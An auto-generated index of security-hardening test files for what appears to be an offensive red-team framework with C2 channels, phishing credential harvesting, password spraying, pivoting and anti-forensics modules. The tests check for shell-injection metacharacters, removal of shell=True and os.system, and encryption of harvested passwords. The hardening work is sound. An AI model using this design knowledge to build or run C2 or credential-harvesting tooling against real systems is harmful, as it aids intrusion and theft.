- `TestSSHCredentialInjectionPrevention` (line 92) `class TestSSHCredentialInjectionPrevention` - *CONTRACT: The postexp_migrated module must NEVER pass passwords
through shell command strings via sshpass -p '{password}'.
Passwords must be passed via SSHPASS environment variable with -e flag.*
- `TestDNSCommandAllowlist` (line 157) `class TestDNSCommandAllowlist` - *CONTRACT: The DNS C2 resolver must validate decoded commands against
a strict allowlist before processing. Unknown commands must be rejected.*
- `TestSafeShellExecution` (line 220) `class TestSafeShellExecution` - *CONTRACT: The do_sys command must route through the audited
core.safe_exec.safe_run_shell gate with output capture instead of a raw
subprocess.run with shell=True.*
- `TestCredentialEncryptionAtRest` (line 288) `class TestCredentialEncryptionAtRest` - *CONTRACT: Harvested phishing credentials must be encrypted before
writing to disk. Passwords must never appear in plaintext in JSON
or log files.*
- `TestNoOsSystemInCriticalPaths` (line 349) `class TestNoOsSystemInCriticalPaths` - *CONTRACT: Security-critical modules must not use os.system() which
provides no output capture, no exit code control, and is vulnerable
to shell injection.*

**Functions:**
- `_read` (line 25) `def _read(relpath)`

**Methods:**
- `test_no_os_system_in_ai_module` (line 43) `def test_no_os_system_in_ai_module(self)` - *BDD: Given the ai module source is loaded,
When I scan for os.system calls,
Then none must exist.*
- `test_no_subprocess_in_ai_module` (line 49) `def test_no_subprocess_in_ai_module(self)` - *BDD: Given do_ask/do_groq answer in-process,
When I scan for subprocess usage,
Then no subprocess import or call must exist.*
- `test_no_shell_true_in_ai_module` (line 57) `def test_no_shell_true_in_ai_module(self)` - *BDD: Given the ai module source is loaded,
When I scan for shell execution,
Then shell=True must not appear.*
- `test_api_key_never_leaves_factory_path` (line 63) `def test_api_key_never_leaves_factory_path(self)` - *BDD: Given the api_key must stay inside backend construction,
When I scan for env-dict or CLI-arg key passing,
Then neither pattern must exist.*
- `test_answers_through_canonical_backend` (line 70) `def test_answers_through_canonical_backend(self)` - *BDD: Given do_ask/do_groq must use the single source of truth,
When I scan the module,
Then the canonical adapter and factory entry points must be used.*
- `test_no_fstring_with_api_key_in_command` (line 77) `def test_no_fstring_with_api_key_in_command(self)` - *BDD: Given the source is scanned for f-string command construction,
When api_key appears in an f-string targeting subprocess,
Then it must be in the env parameter only.*
- `test_no_sshpass_minus_p_in_code` (line 99) `def test_no_sshpass_minus_p_in_code(self)` - *BDD: Given the postexp module source is loaded,
When I scan for sshpass -p in actual code (not docstrings),
Then it must not appear.*
- `test_sshpass_uses_e_flag` (line 116) `def test_sshpass_uses_e_flag(self)` - *BDD: Given sshpass is invoked,
When the command is constructed,
Then it must use the -e flag for environment-based password.*
- `test_ssppass_env_var_used` (line 122) `def test_ssppass_env_var_used(self)` - *BDD: Given sshpass is invoked,
When the password is passed,
Then it must be via SSHPASS environment variable.*
- `test_sshpass_in_list_form` (line 128) `def test_sshpass_in_list_form(self)` - *BDD: Given sshpass is invoked,
When subprocess.run is called,
Then it must use list-form arguments.*
- `test_password_not_in_fstring_command` (line 134) `def test_password_not_in_fstring_command(self)` - *BDD: Given a password contains shell metacharacters,
When the SCP command is constructed,
Then the password must not appear in any f-string in code.*
- `test_allowlist_exists_as_frozenset` (line 163) `def test_allowlist_exists_as_frozenset(self)` - *BDD: Given the lazyc2 module source is loaded,
When I check for the DNS command allowlist,
Then _DNS_COMMAND_ALLOWLIST must be defined as a frozenset.*
- `test_max_length_constant_exists` (line 169) `def test_max_length_constant_exists(self)` - *BDD: Given the DNS resolver processes commands,
When a command is decoded,
Then _DNS_MAX_DECODED_LENGTH must be defined.*
- `test_allowlist_is_finite_and_reasonable` (line 175) `def test_allowlist_is_finite_and_reasonable(self)` - *BDD: Given the allowlist is defined,
When I inspect its size,
Then it must contain fewer than 20 entries (principle of least privilege).*
- `test_dns_handler_checks_allowlist` (line 188) `def test_dns_handler_checks_allowlist(self)` - *BDD: Given a DNS query is decoded,
When the command starts with 'exec:',
Then the handler must check if the command is in _DNS_COMMAND_ALLOWLIST.*
- `test_dns_handler_checks_length` (line 194) `def test_dns_handler_checks_length(self)` - *BDD: Given a DNS query decodes to a very long string,
When the handler processes it,
Then it must check len(command) against _DNS_MAX_DECODED_LENGTH.*
- `test_dangerous_command_not_in_allowlist` (line 200) `def test_dangerous_command_not_in_allowlist(self)` - *BDD: Given the allowlist is defined,
When I check for dangerous commands,
Then destructive commands must not be in the allowlist.*
- `test_do_sys_uses_safe_runner` (line 227) `def test_do_sys_uses_safe_runner(self)` - *BDD: Given the misc_migrated source is loaded,
When I locate the do_sys method,
Then it must use the safe_run_shell gate, not a raw shell.*
- `test_do_sys_captures_output` (line 246) `def test_do_sys_captures_output(self)` - *BDD: Given a command is executed via 'sys',
When the command produces stdout/stderr,
Then the output must be captured.*
- `test_no_os_system_in_misc_module_code` (line 264) `def test_no_os_system_in_misc_module_code(self)` - *BDD: Given the shell command module sources,
When I scan for os.system in actual code (not docstrings),
Then it must not appear in any command execution method.*
- `test_encrypt_function_exists` (line 295) `def test_encrypt_function_exists(self)` - *BDD: Given the phishing orchestrator source is loaded,
When I check for credential encryption,
Then _encrypt_credential function must be defined.*
- `test_decrypt_function_exists` (line 301) `def test_decrypt_function_exists(self)` - *BDD: Given encrypted credentials exist on disk,
When the operator needs to read them,
Then _decrypt_credential must be defined.*
- `test_hash_function_exists` (line 307) `def test_hash_function_exists(self)` - *BDD: Given credentials are logged,
When writing to the audit log,
Then _hash_credential_for_log must be defined.*
- `test_record_credentials_encrypts_password` (line 313) `def test_record_credentials_encrypts_password(self)` - *BDD: Given record_credentials is called,
When the password is written to JSON,
Then _encrypt_credential must be called on the password.*
- `test_log_uses_hash_not_plaintext` (line 319) `def test_log_uses_hash_not_plaintext(self)` - *BDD: Given the audit log is written,
When the password field is recorded,
Then _hash_credential_for_log must be used, not plaintext.*
- `test_uses_aes_encryption` (line 325) `def test_uses_aes_encryption(self)` - *BDD: Given credentials are encrypted,
When the encryption is performed,
Then AES-256-GCM must be used (via core.crypto).*
- `test_imports_base64_for_encoding` (line 331) `def test_imports_base64_for_encoding(self)` - *BDD: Given encrypted bytes need to be stored as text,
When the encryption is performed,
Then base64 encoding must be used.*
- `test_credential_key_derivation` (line 337) `def test_credential_key_derivation(self)` - *BDD: Given encryption requires a key,
When the key is derived,
Then _derive_credential_key must be defined.*
- `test_ai_module_no_os_system` (line 354) `def test_ai_module_no_os_system(self)` - *BDD: Given the AI command module source,
When I scan for os.system calls,
Then none must exist.*
- `test_postexp_no_sshpass_in_fstring_code` (line 361) `def test_postexp_no_sshpass_in_fstring_code(self)` - *BDD: Given the post-exploitation module source,
When I scan for sshpass in f-strings in code,
Then none must exist.*
- `test_dns_resolver_has_allowlist_guard` (line 379) `def test_dns_resolver_has_allowlist_guard(self)` - *BDD: Given the DNS resolver source,
When I scan for the exec: handler,
Then it must contain an allowlist check.*
- `test_misc_sys_no_os_system` (line 386) `def test_misc_sys_no_os_system(self)` - *BDD: Given the shellsys module source,
When I locate the do_sys method,
Then os.system must not be used.*

#### `test_security_hardening_v3.py`
**Path:** `tests/test_security_hardening_v3.py`
**File Doc:** *Security hardening tests — SDD+TDD+BDD for all boy-scout fixes.  Contract: every fix from the security audit must have a test that: 1. Validates the vulnerable pattern is eliminated (red-green). 2. Confirms the safe alternative behaves correctly. 3. Covers edge cases (empty input, special chars, traversal attempts).  Run: pytest tests/test_security_hardening_v3.py -v*

**Classes:**
- `TestSafeSubprocessRun` (line 21) `class TestSafeSubprocessRun` - *BDD: GIVEN a command to run, WHEN using safe_subprocess_run,
THEN it must never invoke a shell and must reject null bytes.*
- `TestSafeClipboardCopy` (line 116) `class TestSafeClipboardCopy` - *BDD: GIVEN content to copy, WHEN using safe_clipboard_copy,
THEN it uses subprocess list-form and rejects oversized content.*
- `TestBuildSshpassCommand` (line 134) `class TestBuildSshpassCommand` - *BDD: GIVEN ssh credentials, WHEN building sshpass command,
THEN it must use -e flag and never expose password.*
- `TestSetSshpassEnv` (line 159) `class TestSetSshpassEnv` - *BDD: GIVEN a password, WHEN setting sshpass env,
THEN SSHPASS is set and null bytes are rejected.*
- `TestEscapeHtmlContent` (line 182) `class TestEscapeHtmlContent` - *BDD: GIVEN user-controlled data, WHEN escaping for HTML,
THEN special characters are properly escaped.*
- `TestSafePathJoin` (line 213) `class TestSafePathJoin` - *BDD: GIVEN a base dir and user path, WHEN joining safely,
THEN path traversal is blocked.*
- `TestValidateNetworkCidr` (line 244) `class TestValidateNetworkCidr` - *BDD: GIVEN a network CIDR, WHEN validating,
THEN only valid notation is accepted.*
- `TestValidatePortSpec` (line 266) `class TestValidatePortSpec` - *BDD: GIVEN a port specification, WHEN validating,
THEN only valid formats are accepted.*
- `TestValidateHost` (line 284) `class TestValidateHost` - *BDD: GIVEN a hostname or IP, WHEN validating,
THEN only valid formats are accepted.*
- `TestRequireEncryptionKey` (line 305) `class TestRequireEncryptionKey` - *BDD: WHEN requiring an encryption key,
THEN it must never fall back to a static default.*
- `TestSanitizeFilename` (line 332) `class TestSanitizeFilename` - *BDD: GIVEN a filename, WHEN sanitizing,
THEN dangerous characters are removed.*
- `TestPhishingOrchestratorKey` (line 356) `class TestPhishingOrchestratorKey` - *BDD: GIVEN the phishing orchestrator,
THEN it must require a proper encryption key.*
- `TestIcmpServerCommandExecution` (line 379) `class TestIcmpServerCommandExecution` - *BDD: GIVEN a command for the ICMP server,
THEN it must not use shell=True.*
- `TestResourceScriptEngine` (line 405) `class TestResourceScriptEngine` - *BDD: GIVEN a resource script command,
THEN it must not use shell=True.*
- `TestPivotingCommands` (line 420) `class TestPivotingCommands` - *BDD: GIVEN pivoting operations,
THEN shell=True must be eliminated from pivoting code.*
- `TestAntiForensicsCommands` (line 439) `class TestAntiForensicsCommands` - *BDD: GIVEN anti-forensics operations,
THEN shell=True must be eliminated from anti_forensics code.*

**Methods:**
- `test_rejects_empty_argv` (line 25) `def test_rejects_empty_argv(self)`
- `test_rejects_null_bytes` (line 31) `def test_rejects_null_bytes(self)`
- `test_runs_command_without_shell` (line 37) `def test_runs_command_without_shell(self)`
- `test_captures_stderr` (line 44) `def test_captures_stderr(self)`
- `test_shell_false_enforced` (line 51) `def test_shell_false_enforced(self)`
- `test_returns_completed_process_fields` (line 62) `def test_returns_completed_process_fields(self)`
- `test_timeout_passed_through` (line 71) `def test_timeout_passed_through(self)`
- `test_capture_output_default_true` (line 82) `def test_capture_output_default_true(self)`
- `test_check_false` (line 93) `def test_check_false(self)`
- `test_text_mode_enabled` (line 104) `def test_text_mode_enabled(self)`
- `test_rejects_oversized_content` (line 120) `def test_rejects_oversized_content(self)`
- `test_returns_false_without_clipboard_tool` (line 126) `def test_returns_false_without_clipboard_tool(self)`
- `test_uses_e_flag_not_p` (line 138) `def test_uses_e_flag_not_p(self)`
- `test_rejects_oversized_password` (line 146) `def test_rejects_oversized_password(self)`
- `test_rejects_null_bytes_in_password` (line 152) `def test_rejects_null_bytes_in_password(self)`
- `test_sets_ssplash_env` (line 163) `def test_sets_ssplash_env(self)`
- `test_preserves_existing_env` (line 169) `def test_preserves_existing_env(self)`
- `test_rejects_null_bytes` (line 175) `def test_rejects_null_bytes(self)`
- `test_escapes_script_tags` (line 186) `def test_escapes_script_tags(self)`
- `test_escapes_quotes` (line 193) `def test_escapes_quotes(self)`
- `test_preserves_safe_content` (line 200) `def test_preserves_safe_content(self)`
- `test_handles_empty_string` (line 206) `def test_handles_empty_string(self)`
- `test_allows_safe_paths` (line 217) `def test_allows_safe_paths(self, tmp_path)`
- `test_blocks_traversal` (line 223) `def test_blocks_traversal(self, tmp_path)`
- `test_blocks_symlink_escape` (line 229) `def test_blocks_symlink_escape(self, tmp_path)`
- `test_rejects_empty_path` (line 237) `def test_rejects_empty_path(self, tmp_path)`
- `test_accepts_valid_cidr` (line 248) `def test_accepts_valid_cidr(self)`
- `test_rejects_invalid_cidr` (line 254) `def test_rejects_invalid_cidr(self)`
- `test_rejects_empty` (line 260) `def test_rejects_empty(self)`
- `test_accepts_valid_ports` (line 270) `def test_accepts_valid_ports(self)`
- `test_rejects_invalid_ports` (line 277) `def test_rejects_invalid_ports(self)`
- `test_accepts_valid_ip` (line 288) `def test_accepts_valid_ip(self)`
- `test_accepts_valid_hostname` (line 293) `def test_accepts_valid_hostname(self)`
- `test_rejects_invalid` (line 298) `def test_rejects_invalid(self)`
- `test_raises_without_key` (line 309) `def test_raises_without_key(self)`
- `test_reads_from_env` (line 316) `def test_reads_from_env(self)`
- `test_reads_from_file` (line 323) `def test_reads_from_file(self, tmp_path)`
- `test_removes_dangerous_chars` (line 336) `def test_removes_dangerous_chars(self)`
- `test_handles_empty` (line 343) `def test_handles_empty(self)`
- `test_truncates_long_names` (line 349) `def test_truncates_long_names(self)`
- `test_raises_without_key` (line 360) `def test_raises_without_key(self)`
- `test_works_with_env_key` (line 371) `def test_works_with_env_key(self)`
- `test_execute_command_uses_list_form` (line 383) `def test_execute_command_uses_list_form(self)`
- `test_handles_empty_command` (line 392) `def test_handles_empty_command(self)`
- `test_handles_invalid_command` (line 398) `def test_handles_invalid_command(self)`
- `test_run_command_uses_list_form` (line 409) `def test_run_command_uses_list_form(self)`
- `test_pivoting_module_has_no_shell_true` (line 424) `def test_pivoting_module_has_no_shell_true(self)`
- `test_anti_forensics_has_no_shell_true` (line 443) `def test_anti_forensics_has_no_shell_true(self)`

#### `test_security_hardening_v4.py`
**Path:** `tests/test_security_hardening_v4.py`
**File Doc:** *SDD+TDD+BDD tests for security hardening v4 — command execution, URL injection, and path traversal.  Contract: Every security fix in this batch has a corresponding test that verifies the fix works and would detect regression. Tests are written BEHAVIOURALLY (BDD-style) so they read as specifications.  Covers: - core/safe_exec.py: safe_system, safe_run_argv, safe_run_shell, validate_url, safe_git_clone, safe_ip_show - poc_tui/plugin_loader.py: URL injection via git clone - modules/morse.py: os.system removed - modules/c2_builder.py: os.system replaced with Python-native ops - lazyc2.py: execute_command uses shell=False - cli/commands/misc_migrated.py: os.system and shell=True removed - cli/commands/recon_migrated.py: os.system replaced with Python - Hardcoded absolute paths eliminated - modules/conditional_hooks.py: shlex.quote injection prevention*

**Classes:**
- `TestSafeSystem` (line 34) `class TestSafeSystem` - *CONTRACT: safe_system must reject commands containing shell
metacharacters that could indicate injection attempts.*
- `TestSafeRunArgv` (line 100) `class TestSafeRunArgv` - *CONTRACT: safe_run_argv must always use shell=False and reject
null bytes in arguments.*
- `TestValidateUrl` (line 135) `class TestValidateUrl` - *CONTRACT: validate_url must reject URLs containing shell
metacharacters and non-HTTP schemes.*
- `TestSafeGitClone` (line 201) `class TestSafeGitClone` - *CONTRACT: safe_git_clone must validate the URL and use
subprocess list-form, never os.system.*
- `TestSafeIpShow` (line 231) `class TestSafeIpShow` - *CONTRACT: safe_ip_show must parse 'ip a show' output in Python,
never via shell pipes.*
- `TestPluginLoaderUrlInjection` (line 266) `class TestPluginLoaderUrlInjection` - *CONTRACT: The plugin loader must validate git clone URLs and
reject shell metacharacters.*
- `TestMorseNoOsSystem` (line 336) `class TestMorseNoOsSystem` - *CONTRACT: modules/morse.py must not contain any os.system calls.*
- `TestC2BuilderNoOsSystem` (line 359) `class TestC2BuilderNoOsSystem` - *CONTRACT: modules/c2_builder.py must not use os.system for
beacon encryption or tunnel URL extraction.*
- `TestExecuteCommandShellFalse` (line 391) `class TestExecuteCommandShellFalse` - *CONTRACT: The execute_command function in lazyc2.py must use
shell=False with shlex.split.*
- `TestMiscMigratedIpDisplay` (line 415) `class TestMiscMigratedIpDisplay` - *CONTRACT: The do_ip and do_ipp functions must not use os.system
or subprocess with shell=True for IP display.*
- `TestNoHardcodedPaths` (line 439) `class TestNoHardcodedPaths` - *CONTRACT: Production code must not contain hardcoded absolute paths
to user home directories.*
- `TestConditionalHooksInjectionPrevention` (line 512) `class TestConditionalHooksInjectionPrevention` - *CONTRACT: conditional_hooks.py must quote placeholder values
with shlex.quote before inserting them into shell commands.*
- `TestSafeClearScreen` (line 529) `class TestSafeClearScreen` - *CONTRACT: safe_clear_screen must use tput or ANSI escapes,
never os.system.*
- `TestReconMigratedNoOsSystem` (line 559) `class TestReconMigratedNoOsSystem` - *CONTRACT: cli/commands/recon_migrated.py must not use os.system
for PATH modification.*
- `TestSafeFileRead` (line 576) `class TestSafeFileRead` - *CONTRACT: safe_file_read must enforce a size limit to prevent
memory exhaustion attacks.*
- `TestSafeFindTool` (line 624) `class TestSafeFindTool` - *CONTRACT: safe_find_tool must use shutil.which to find tools,
replacing hardcoded paths.*

**Methods:**
- `test_rejects_semicolon` (line 38) `def test_rejects_semicolon(self)` - *BDD: Given a command with a semicolon, When I call safe_system,
Then it must raise CommandInjectionError.*
- `test_rejects_pipe` (line 46) `def test_rejects_pipe(self)` - *BDD: Given a command with a pipe, When I call safe_system,
Then it must raise CommandInjectionError.*
- `test_rejects_backtick` (line 54) `def test_rejects_backtick(self)` - *BDD: Given a command with backticks, When I call safe_system,
Then it must raise CommandInjectionError.*
- `test_rejects_dollar_paren` (line 62) `def test_rejects_dollar_paren(self)` - *BDD: Given a command with $(...), When I call safe_system,
Then it must raise CommandInjectionError.*
- `test_rejects_empty_command` (line 70) `def test_rejects_empty_command(self)` - *BDD: Given an empty command, When I call safe_system,
Then it must raise ValueError.*
- `test_rejects_whitespace_only` (line 78) `def test_rejects_whitespace_only(self)` - *BDD: Given a whitespace-only command, When I call safe_system,
Then it must raise ValueError.*
- `test_allows_simple_command` (line 86) `def test_allows_simple_command(self)` - *BDD: Given a simple command without metacharacters, When I call safe_system,
Then it must execute successfully.*
- `test_rejects_null_byte` (line 104) `def test_rejects_null_byte(self)` - *BDD: Given an argument with a null byte, When I call safe_run_argv,
Then it must raise CommandInjectionError.*
- `test_rejects_empty_argv` (line 112) `def test_rejects_empty_argv(self)` - *BDD: Given an empty argv, When I call safe_run_argv,
Then it must raise ValueError.*
- `test_executes_without_shell` (line 120) `def test_executes_without_shell(self)` - *BDD: Given a valid command, When I call safe_run_argv,
Then it must execute without a shell.*
- `test_rejects_semicolon_in_url` (line 139) `def test_rejects_semicolon_in_url(self)` - *BDD: Given a URL with a semicolon, When I validate it,
Then it must raise UrlValidationError.*
- `test_rejects_backtick_in_url` (line 147) `def test_rejects_backtick_in_url(self)` - *BDD: Given a URL with backticks, When I validate it,
Then it must raise UrlValidationError.*
- `test_rejects_ftp_scheme` (line 155) `def test_rejects_ftp_scheme(self)` - *BDD: Given a URL with ftp scheme, When I validate it,
Then it must raise UrlValidationError.*
- `test_rejects_empty_url` (line 163) `def test_rejects_empty_url(self)` - *BDD: Given an empty URL, When I validate it,
Then it must raise ValueError.*
- `test_rejects_missing_netloc` (line 171) `def test_rejects_missing_netloc(self)` - *BDD: Given a URL without hostname, When I validate it,
Then it must raise UrlValidationError.*
- `test_allows_valid_https_url` (line 179) `def test_allows_valid_https_url(self)` - *BDD: Given a valid HTTPS URL, When I validate it,
Then it must return the URL unchanged.*
- `test_allows_valid_http_url` (line 187) `def test_allows_valid_http_url(self)` - *BDD: Given a valid HTTP URL, When I validate it,
Then it must return the URL unchanged.*
- `test_rejects_injection_in_url` (line 205) `def test_rejects_injection_in_url(self)` - *BDD: Given a URL with shell injection, When I clone,
Then it must raise UrlValidationError.*
- `test_uses_subprocess_list_form` (line 214) `def test_uses_subprocess_list_form(self, mock_run)` - *BDD: Given a valid URL, When I clone,
Then subprocess.run must be called with a list (not shell=True).*
- `test_returns_list_of_dicts` (line 235) `def test_returns_list_of_dicts(self)` - *BDD: Given ip a show output, When I parse it,
Then I must get a list of dicts with interface and address.*
- `test_handles_missing_command` (line 251) `def test_handles_missing_command(self)` - *BDD: Given ip command is not found, When I parse,
Then it must return an empty list.*
- `_get_validate_fn` (line 270) `def _get_validate_fn(self)`
- `test_validate_clone_url_rejects_semicolon` (line 281) `def test_validate_clone_url_rejects_semicolon(self)` - *BDD: Given a repo URL with semicolon, When I validate it,
Then it must raise ValueError.*
- `test_validate_clone_url_rejects_pipe` (line 288) `def test_validate_clone_url_rejects_pipe(self)` - *BDD: Given a repo URL with pipe, When I validate it,
Then it must raise ValueError.*
- `test_validate_clone_url_rejects_dollar` (line 295) `def test_validate_clone_url_rejects_dollar(self)` - *BDD: Given a repo URL with dollar sign, When I validate it,
Then it must raise ValueError.*
- `test_validate_clone_url_rejects_backtick` (line 302) `def test_validate_clone_url_rejects_backtick(self)` - *BDD: Given a repo URL with backtick, When I validate it,
Then it must raise ValueError.*
- `test_validate_clone_url_rejects_empty` (line 309) `def test_validate_clone_url_rejects_empty(self)` - *BDD: Given an empty URL, When I validate it,
Then it must raise ValueError.*
- `test_validate_clone_url_rejects_non_http` (line 316) `def test_validate_clone_url_rejects_non_http(self)` - *BDD: Given a non-HTTP URL, When I validate it,
Then it must raise ValueError.*
- `test_validate_clone_url_allows_valid_url` (line 323) `def test_validate_clone_url_allows_valid_url(self)` - *BDD: Given a valid HTTPS URL, When I validate it,
Then it must return the URL unchanged.*
- `test_no_os_system_in_morse` (line 339) `def test_no_os_system_in_morse(self)` - *BDD: Given the morse.py module, When I scan its source code,
Then it must not contain os.system.*
- `test_uses_subprocess_instead` (line 346) `def test_uses_subprocess_instead(self)` - *BDD: Given the morse.py module, When I scan its source code,
Then it must use subprocess for screen clearing.*
- `test_no_os_system_for_encryption` (line 363) `def test_no_os_system_for_encryption(self)` - *BDD: Given the c2_builder.py module, When I scan for os.system,
Then it must not use os.system for beacon encryption.*
- `test_no_os_system_for_tunnel` (line 370) `def test_no_os_system_for_tunnel(self)` - *BDD: Given the c2_builder.py module, When I scan for os.system,
Then it must not use os.system for tunnel URL extraction.*
- `test_uses_python_native_for_encryption` (line 377) `def test_uses_python_native_for_encryption(self)` - *BDD: Given the c2_builder.py module, When I check beacon encryption,
Then it must use Python-native file operations.*
- `test_uses_shell_false` (line 395) `def test_uses_shell_false(self)` - *BDD: Given the execute_command function, When I check its implementation,
Then it must use shell=False.*
- `test_uses_shlex_split` (line 402) `def test_uses_shlex_split(self)` - *BDD: Given the execute_command function, When I check its implementation,
Then it must use shlex.split to parse commands.*
- `test_ip_uses_subprocess_list_form` (line 419) `def test_ip_uses_subprocess_list_form(self)` - *BDD: Given the nethelpers.py module, When I check IP display,
Then it must use subprocess with a list (not shell=True).*
- `test_no_xclip_shell_true` (line 426) `def test_no_xclip_shell_true(self)` - *BDD: Given the nethelpers.py module, When I check clipboard
operations, Then xclip must not use shell=True.*
- `test_no_home_grisun0_in_production` (line 443) `def test_no_home_grisun0_in_production(self)` - *BDD: Given production code files, When I scan for hardcoded paths,
Then /home/grisun0 must not appear in non-test files.*
- `test_no_home_grisun0_in_configs_and_docs` (line 467) `def test_no_home_grisun0_in_configs_and_docs(self)` - *BDD: Given tracked config and agent docs, When I scan them,
Then the operator home path must not appear in a portable checkout.*
- `test_no_root_home_in_anti_forensics` (line 491) `def test_no_root_home_in_anti_forensics(self)` - *BDD: Given the anti_forensics.py module, When I scan for /root/,
Then it must use Path.home() instead.*
- `test_telegram_hermes_uses_env_shebang` (line 499) `def test_telegram_hermes_uses_env_shebang(self)` - *BDD: Given telegram_hermes.py, When I check the shebang,
Then it must use #!/usr/bin/env python3.*
- `test_uses_shlex_quote` (line 516) `def test_uses_shlex_quote(self)` - *BDD: Given the conditional_hooks.py module, When I check
_resolve_placeholders, Then it must use shlex.quote.*
- `test_no_os_system` (line 533) `def test_no_os_system(self)` - *BDD: Given the safe_exec module, When I check safe_clear_screen,
Then it must not use os.system.*
- `test_uses_subprocess` (line 543) `def test_uses_subprocess(self)` - *BDD: Given the safe_exec module, When I check safe_clear_screen,
Then it must use subprocess.*
- `test_no_os_system_for_path_setup` (line 563) `def test_no_os_system_for_path_setup(self)` - *BDD: Given the recon_migrated.py module, When I check the
alterx PATH setup, Then it must use Python file operations.*
- `test_rejects_oversized_file` (line 580) `def test_rejects_oversized_file(self)` - *BDD: Given a file exceeding the size limit, When I read it,
Then it must raise ValueError.*
- `test_reads_valid_file` (line 595) `def test_reads_valid_file(self)` - *BDD: Given a file within the size limit, When I read it,
Then it must return the contents.*
- `test_rejects_missing_file` (line 610) `def test_rejects_missing_file(self)` - *BDD: Given a non-existent file, When I read it,
Then it must raise FileNotFoundError.*
- `test_finds_existing_tool` (line 628) `def test_finds_existing_tool(self)` - *BDD: Given a tool on PATH, When I search for it,
Then it must return the path.*
- `test_returns_none_for_missing_tool` (line 637) `def test_returns_none_for_missing_tool(self)` - *BDD: Given a tool not on PATH, When I search for it,
Then it must return None.*

#### `test_security_hardening_v5.py`
**Path:** `tests/test_security_hardening_v5.py`
**File Doc:** *SDD+TDD+BDD tests for CodeQL security batch — weak crypto, clear-text secrets, TLS.  Contract: every fix in this batch has a test that proves the weakness is gone and would detect a regression (mutation-killed). Tests are written behaviourally so they read as specifications.  Covers (CodeQL alert ids): - #895 modules/icmp_server.py + icmp_client.py: AES-ECB -> AES-256-GCM - #867 modules/phishing_orchestrator.py: keyed HMAC-SHA-256 instead of salted SHA-256 - #865 utils.py create_caldera_config: hardcoded credentials removed + 0600 perms - #864 utils.py Spray: password no longer logged in clear text - #863 cli/commands/phishing_wizard.py: captured passwords encrypted at rest - #862/#861 lazyc2.py: one-time admin password persisted to a file, not printed - #851 modules/network_opsec.py: minimum TLS version pinned - #859 lazyc2/blueprints/addons.py: reflected cookie injection blocked - #858/#857 lazyc2/blueprints/api.py: exception details not exposed in responses*

**Classes:**
- `TestIcmpAuthenticatedCrypto` (line 43) `class TestIcmpAuthenticatedCrypto` - *CONTRACT: the ICMP C2 tunnel must encrypt with AES-256-GCM and
authenticate every payload; ECB mode must be gone.*
- `TestCredentialLogHashing` (line 93) `class TestCredentialLogHashing` - *CONTRACT: the audit-log fingerprint of a credential must be a keyed
HMAC so it cannot be brute-forced independently of the secret key.*
- `TestCalderaConfigNoHardcodedSecrets` (line 119) `class TestCalderaConfigNoHardcodedSecrets` - *CONTRACT: create_caldera_config must generate every credential and set
owner-only permissions; no hardcoded passwords may be embedded.*
- `TestSprayNoClearTextPassword` (line 155) `class TestSprayNoClearTextPassword` - *CONTRACT: the ADFS spray function must not print the sprayed password.*
- `TestPhishingWizardEncryptsCredentials` (line 173) `class TestPhishingWizardEncryptsCredentials` - *CONTRACT: the campaign harvester must encrypt the password before
writing credentials.json and hash it before the audit log.*
- `TestBootstrapPasswordNotPrinted` (line 196) `class TestBootstrapPasswordNotPrinted` - *CONTRACT: the one-time admin password must be written to an owner-only
file rather than echoed to the console.*
- `TestNetworkOpsecTlsVersion` (line 222) `class TestNetworkOpsecTlsVersion` - *CONTRACT: TLS inspection must never negotiate below TLS 1.2.*
- `TestCsrfCookieInjection` (line 235) `class TestCsrfCookieInjection` - *CONTRACT: the CSRF client-id cookie must not reflect arbitrary
user-supplied values back into a Set-Cookie header.*
- `TestHealthEndpointNoExceptionLeak` (line 259) `class TestHealthEndpointNoExceptionLeak` - *CONTRACT: health responses must be generic 'error' strings; the raw
exception is logged server-side, never serialized to clients.*
- `BrokenDB` (line 280) `class BrokenDB`

**Functions:**
- `_read` (line 33) `def _read(rel)` - *Read a production source file relative to the repository root.*

**Methods:**
- `test_server_has_no_ecb` (line 47) `def test_server_has_no_ecb(self)`
- `test_client_has_no_ecb` (line 50) `def test_client_has_no_ecb(self)`
- `test_server_uses_gcm` (line 53) `def test_server_uses_gcm(self)`
- `test_client_uses_gcm` (line 56) `def test_client_uses_gcm(self)`
- `test_encrypt_decrypt_roundtrip` (line 59) `def test_encrypt_decrypt_roundtrip(self)`
- `test_tampered_payload_rejected` (line 67) `def test_tampered_payload_rejected(self)`
- `test_short_payload_rejected` (line 76) `def test_short_payload_rejected(self)`
- `test_client_sudo_is_guarded` (line 82) `def test_client_sudo_is_guarded(self)`
- `test_uses_hmac_not_plain_sha256` (line 97) `def test_uses_hmac_not_plain_sha256(self)`
- `test_no_salted_sha256_fingerprint` (line 101) `def test_no_salted_sha256_fingerprint(self)`
- `test_fingerprint_is_hmac_of_proper_key` (line 105) `def test_fingerprint_is_hmac_of_proper_key(self)`
- `test_no_hardcoded_user_passwords` (line 123) `def test_no_hardcoded_user_passwords(self)`
- `test_generated_user_passwords` (line 128) `def test_generated_user_passwords(self)`
- `test_writes_with_owner_permissions` (line 134) `def test_writes_with_owner_permissions(self)`
- `test_functional_generates_no_static_passwords` (line 138) `def test_functional_generates_no_static_passwords(self)`
- `test_does_not_log_password` (line 158) `def test_does_not_log_password(self)`
- `test_logs_success_without_secret` (line 163) `def test_logs_success_without_secret(self)`
- `test_encrypts_password_before_storage` (line 177) `def test_encrypts_password_before_storage(self)`
- `test_hashes_password_before_log` (line 181) `def test_hashes_password_before_log(self)`
- `test_imports_encryption_contract` (line 185) `def test_imports_encryption_contract(self)`
- `test_no_password_print` (line 200) `def test_no_password_print(self)`
- `test_persist_helper_exists` (line 204) `def test_persist_helper_exists(self)`
- `test_persist_uses_owner_only_permissions` (line 208) `def test_persist_uses_owner_only_permissions(self)`
- `test_persist_writes_to_file` (line 212) `def test_persist_writes_to_file(self)`
- `test_pins_minimum_version` (line 225) `def test_pins_minimum_version(self)`
- `test_validates_client_id` (line 239) `def test_validates_client_id(self)`
- `test_validator_accepts_only_urlsafe_token` (line 243) `def test_validator_accepts_only_urlsafe_token(self)`
- `test_no_exception_interpolation` (line 263) `def test_no_exception_interpolation(self)`
- `test_database_error_is_generic` (line 267) `def test_database_error_is_generic(self)`
- `test_listener_error_is_generic` (line 271) `def test_listener_error_is_generic(self)`
- `test_loads_only_generic_error` (line 275) `def test_loads_only_generic_error(self)`

#### `test_security_lazyc2.py`
**Path:** `tests/test_security_lazyc2.py`
**File Doc:** *Security tests for the LazyOwn C2 web layer.  Validates path traversal resistance, input sanitization, secret management, and content security policies using pytest.*

**Classes:**
